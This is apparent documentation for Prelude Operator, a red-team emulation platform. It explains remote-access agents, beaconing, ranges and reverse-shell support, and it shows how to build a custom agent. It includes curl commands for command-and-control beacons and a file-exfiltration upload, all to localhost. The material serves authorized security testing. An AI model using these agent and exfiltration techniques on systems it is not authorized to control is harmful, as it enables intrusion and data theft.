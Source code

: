 
# What is an agent

#### Remote access trojans

---

An agent, often referred to as a Remote Access Trojan, is a process running on a remote computer which can run commands while under the control of a bad actor.
Agents beacon into Operator periodically to ask for instructions to run. Each agent is
automatically grouped into a range. Agents communicate to Operator through one of several network protocols, 
such as TCP, UDP, or HTTP.

### What is ThirdEye?

---

ThirdEye is a NodeJS agent that is built directly into Operator. When Operator starts, ThirdEye automatically launches
and beacons into your Home range with the username of the user running the desktop application. It only communicates
locally to Operator and is designed for testing TTPs out before deploying them in the wild. 
ThirdEye does not support reverse shells nor can you delete this agent.

### What is Pneuma?

---

Our most popular open-source agent is called Pneuma, a Golang agent which supports all major operating systems 
and 3 different protocols (TCP, UDP, HTTP). Pneuma is capable of executing nearly all TTPs and chains loaded into
Operator, along with built-in support for reverse shells (when connected over TCP).

### Additional agents

---

Prelude supports multiple script agents written in various languages. 
Some agents are designed for specific operating systems while others are multi-platform. 
You can find details about these agents in the main section, including download options to start using them.

### Agent ranges

---

Ranges are logical groupings of agents. For example, a range can be used to cluster agents from various platforms (darwin, 
linux, windows) in order to run a cross-platform chain against all the agents. Agents can be moved between ranges using 
either command line flags or the Update Config sidebar in the main section.

### Locking an agent

---

Lock an agent in order to approve or reject each instruction (TTP) before it is picked up and executed. 
When an agent is locked, all instructions will enter pending state where you can approve or reject them one at a time.

### Simulation mode

---

You can set agents to "Simulation Mode" via the agent config sidebar. Simulation mode will run TTPs using output data from
the Expected Output section of the TTP's man page. When you toggle this mode, the chain will run as normal, but not actually
execute tasks on the endpoint.

### Agent facts

---

Each agent collects and manages its own collection of facts, which it will use as variables inside TTP commands.
You can interact with these facts by clicking into the Knowledge Store. You can supply an agent with new facts
manually or the agent can report facts itself through the Beacon object.
    
### Deleting an agent

---

When you delete a file-based agent, like Pneuma, the connection is stopped and the agent is archived - meaning
it will no longer show up inside Operator but the data remains in your workspace, if you need to restore it.
However, if you don't stop the agent's process on the compromised machine, the agent will just beacon back in
and create a new version of itself. To stop the process, you will need to send the agent an "exit" keyword command.
You can do this by using the "Stop Agent Process" procedure. Run this, then delete the agent to completely block it.

### Build your own agent

---

You can write your own agent in any language easily. Follow this simple interface to do so. Hint: if you enable 
plain-text encryption in the Settings section you can copy the below commands 
into a terminal to get a real agent online. 
The required Beacon properties are: name, target, location, platform, executors, range, sleep.

#### HTTP Agent 1st beacon to Operator

```shell
curl -X POST localhost:3391 -d '{
    "Name":"david",
    "Target":"127.0.0.1:3391",
    "Hostname":"whoami",
    "Location":"/tmp/here",
    "Platform":"darwin",
    "Executors":["sh"],
    "Range":"home",
    "Sleep":60,
    "Pwd":"/Users/me",
    "Executing":"",
    "Links":[],
    "Facts":[]
}'
```

#### Operator responds with instructions

```shell
{
    "links":[
        {
            "ID": "c1883712-c81b-40a8-952d-a15123c034c6",
            "Executor":"sh",
            "Request":"arp -a",
            "Payload":""
        }
    ]
}
```

#### HTTP Agent executes instructions and sends a new beacon

```shell
curl -X POST localhost:3391 -d '{
    "Name":"david",
    "Target":"127.0.0.1:3391",
    "Hostname":"whoami",
    "Location":"/tmp/here",
    "Platform":"darwin",
    "Executors":["sh"],
    "Range":"home",
    "Sleep":60,
    "Pwd":"/Users/me",
    "Executing":"",
    "Links":[
        {
            "ID": "c1883712-c81b-40a8-952d-a15123c034c6"
            "Executor": "sh",
            "Payload": "",
            "Request": "arp -a",
            "Response": "some response",
            "Status": 0,
            "Pid": 123
       }
    ],
    "Facts":[]
}'
``` 

### Additional options

Aside from sending beacons, an agent can also exfiltrate files back to Operator over HTTP(s).
Below is an example in cURL. The agent must supply the API token along with its name. Any
exfiltrated files will be stored in your agent's artifacts directory (in the Prelude workspace).

```shell
curl -X PUT "http://localhost:3391" -H "key: ${operator.session}" -H "agent: ${agent.name}" -F upload=@steal_me.txt
```
